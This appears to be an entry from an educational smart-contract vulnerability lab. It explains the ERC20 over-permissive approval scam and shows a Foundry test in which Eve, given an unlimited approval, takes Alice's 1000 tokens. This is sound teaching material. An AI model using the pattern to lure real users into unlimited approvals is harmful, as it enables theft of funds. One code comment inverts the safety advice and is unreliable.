

# Approval scam 
[ApproveScam.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/ApproveScam.sol)   
**Name:** Over-Permissive Approve Scam

**Description:**  
This vulnerability is associated with the approval process in ERC20 tokens.
In this scenario, Alice approves Eve to transfer an unlimited (type(uint256).max) amount of tokensfrom Alice's account. Later, Eve exploits this permission and transfers 1000 tokens from Alice's account to hers.

Most current scams use approve or setApprovalForAll to defraud your transfer rights. Be especially careful with this part.

**Mitigation:**  
Users should only approve the amount of tokens necessary for the operation at hand.

**Contract:**  
```
contract ContractTest is Test {
    ERC20 ERC20Contract;
    address alice = vm.addr(1);
    address eve = vm.addr(2);

    function testApproveScam() public {
        ERC20Contract = new ERC20();
        ERC20Contract.mint(1000);
        ERC20Contract.transfer(address(alice), 1000);

        vm.prank(alice);
        // Be Careful to grant unlimited amount to unknown website/address.
        // Do not perform approve, if you are sure it's from a legitimate website.
        // Alice granted approval permission to Eve.
        ERC20Contract.approve(address(eve), type(uint256).max);

        console.log(
            "Before exploiting, Balance of Eve:",
            ERC20Contract.balanceOf(eve)
        );
        console.log(
            "Due to Alice granted transfer permission to Eve, now Eve can move funds from Alice"
        );
        vm.prank(eve);
        // Now, Eve can move funds from Alice.
        ERC20Contract.transferFrom(address(alice), address(eve), 1000);
        console.log(
            "After exploiting, Balance of Eve:",
            ERC20Contract.balanceOf(eve)
        );
        console.log("Exploit completed");
    }

    receive() external payable {}
}
```
**How to Test:**

forge test --contracts src/test/**ApproveScam.sol** -vvvv  
```
// A function to test an approval exploit with ERC20 tokens.
function testApproveScam() public {
    // A new instance of ERC20 contract is created.
    ERC20Contract = new ERC20();

    // Mints 1000 new tokens to the contract's balance.
    ERC20Contract.mint(1000);

    // Transfers 1000 tokens to Alice.
    ERC20Contract.transfer(address(alice), 1000);

    // Alice becomes the active prankster.
    vm.prank(alice);

    // Alice approves Eve to spend any number of her tokens. This is a security risk.
    ERC20Contract.approve(address(eve), type(uint256).max);

    // Logs the balance of Eve before the exploit.
    console.log(
        "Before exploiting, Balance of Eve:",
        ERC20Contract.balanceOf(eve)
    );

    // Logs the warning.
    console.log(
        "Due to Alice granted transfer permission to Eve, now Eve can move funds from Alice"
    );

    // Eve becomes the active prankster.
    vm.prank(eve);

    // Eve transfers 1000 of Alice's tokens to herself.
    ERC20Contract.transferFrom(address(alice), address(eve), 1000);

    // Logs the balance of Eve after the exploit.
    console.log(
        "After exploiting, Balance of Eve:",
        ERC20Contract.balanceOf(eve)
    );

    // Logs "Exploit completed".
    console.log("Exploit completed");
}
```
Red box: transfered Alice’s funds due to Alice granted approval to Eve.  

